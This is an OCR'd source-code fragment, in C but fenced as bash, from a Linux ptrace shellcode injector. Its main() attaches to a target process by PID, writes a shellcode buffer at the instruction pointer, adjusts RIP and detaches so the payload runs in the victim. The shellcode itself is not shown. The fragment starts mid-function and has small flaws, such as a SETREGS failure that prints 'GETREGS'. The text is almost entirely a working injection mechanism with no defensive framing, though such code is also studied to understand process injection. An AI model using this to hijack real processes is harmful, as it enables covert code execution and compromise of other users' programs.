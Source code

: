 ```bash 
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...\n");
  wait (NULL);

  printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  

  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");

 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
  return 0;

}
```
